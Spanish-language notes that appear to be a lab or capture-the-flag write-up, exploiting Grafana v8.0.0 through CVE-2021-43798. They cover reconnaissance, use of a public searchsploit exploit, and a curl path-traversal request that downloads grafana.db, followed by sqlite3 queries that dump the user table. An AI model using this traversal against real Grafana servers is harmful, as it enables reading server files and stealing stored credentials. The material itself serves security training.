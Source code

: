 ```
whatweb http://10.129.234.47:3000/login
```

![[Data10.png]]

![[Data9.png]]
No nos da nada relevante 

---------------
# [[CVE-2021-43798]]

Entramos a http://10.129.234.47:3000 y tenemos este login panel de grafana y nos muestra que tiene la version v8.0.0
![[Data3.png]]

Vamos a usar [[searchsploit]] con el comando `searchsploit grafana` y vemos que tiene una vulnerabilidad para la version 8.3.0 como tenemos una version anterior a esa suponemos que puede estar la vulnerabilidad activa asi que vamos a descargar el exploit con `searchsploit -m multiple/webapps/50581.py`


![[Data7.png]]

Como indica el titulo del exploit, sirve para realizar un LFI, asi que vamos a buscar en google la ubicaicon de la base datos de grafana y nos da la siguiente ubicacion `/var/lib/grafana/grafana.db`


![[Data17.png]]
Ahora vamos a ejecutar el exploit `python3 50581.py -H http://10.129.234.47:3000` y vamos a leer el archivo `/var/lib/grafana/grafana.db`

![[Data16.png]]

![[Data15.png]]
Vimos como funcionaba el script y lo hicimos de forma manual para descargar el archivo.db ya que cuando lo leiamos la base de datos daba mucho texto y no se entendia bien

Con [[curl]] vamos a descargar la base de datos `curl 'http://10.129.234.47:3000/public/plugins/zipkin/../../../../../../../../var/lib/grafana/grafana.db' --path-as-is --output grafana.db` y lo vamos a exportar en un archivo llamado grafana.db
![[Data18.png]]



## Abrir archivo de base de datos con [[sqlite3]]

Usamos el comando `sqlite3 grafana.db` para abrir el archivo de la base de datos
```
.tables                  /Para las tablas
select * from user;      /Para mostrar todo el contenido de la columna user
```
